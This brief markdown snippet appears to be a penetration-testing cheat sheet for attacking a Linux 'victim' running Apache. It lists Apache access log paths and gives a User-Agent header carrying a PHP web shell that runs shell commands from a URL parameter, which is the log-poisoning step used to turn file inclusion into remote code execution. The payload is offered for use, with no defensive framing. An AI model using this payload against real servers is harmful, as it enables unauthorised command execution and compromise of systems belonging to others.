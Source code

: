 # linux victim

## apache

### check

- /var/log/apache/access.log
- /var/log/apache2/access.log

### set payload via user-agent

```
User-Agent: <?php system($_GET['cmd']);?>
```
